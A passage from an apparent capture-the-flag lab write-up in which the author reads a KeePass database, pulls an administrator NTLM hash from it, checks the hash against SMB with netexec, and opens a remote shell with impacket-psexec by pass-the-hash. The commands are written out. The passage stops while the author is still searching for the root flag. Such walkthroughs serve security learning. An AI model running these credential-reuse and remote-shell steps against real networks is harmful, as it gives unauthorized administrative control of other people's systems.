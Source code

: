 
### Reading the passwords From The KeePass Database: {#reading-the-passwords-from-the-keepass-database}

If you don't have KeePass installed, it can be installed easily with the below command.

```shell
sudo apt update && sudo apt install keepassxc
```

+Note+: This is the xc variant, which I just prefer to use.

Lets open the database.
![](/ox-hugo/2025-06-17-202050_.png)

Enter the password.
![](/ox-hugo/2025-06-17-202254_.png)

And we are in.

Looking at the entries if we check the entry marked `Backup Stuff` we can see it contains a hash.
![](/ox-hugo/2025-06-17-203534_.png)

Trying this against the domain with netexec and a list of users we can see it is the administrator hash.

```shell
netexec smb $box -u Users.txt -H "e0fb1fb85756c24235ff238cbe81fe00" --shares --continue-on-success
```

{{< figure src="/ox-hugo/2025-06-17-203842_.png" >}}

We can then get a shell using `impacket-psexec`:

```shell
impacket-psexec $user@$box -hashes :$hash
```

{{< figure src="/ox-hugo/2025-06-17-204116_.png" >}}

Now we get our flag&#x2026;.or can we&#x2026;.
![](/ox-hugo/2025-06-17-204325_.png)

This is interesting. Initially I try and find the flag using the `where` command but cannot find it.

```shell
where /R C:\ root.txt
```

{{< figure src="/ox-hugo/2025-06-18-070208_.png" >}}


#### CTF Shenanigans After Lots Of Searching&#x2026;.. {#ctf-shenanigans-after-lots-of-searching-and-x2026-dot-dot}

So after lots of searching the OS and looking at different parts of the OS I couldn't find the flag so had to look for a hint.
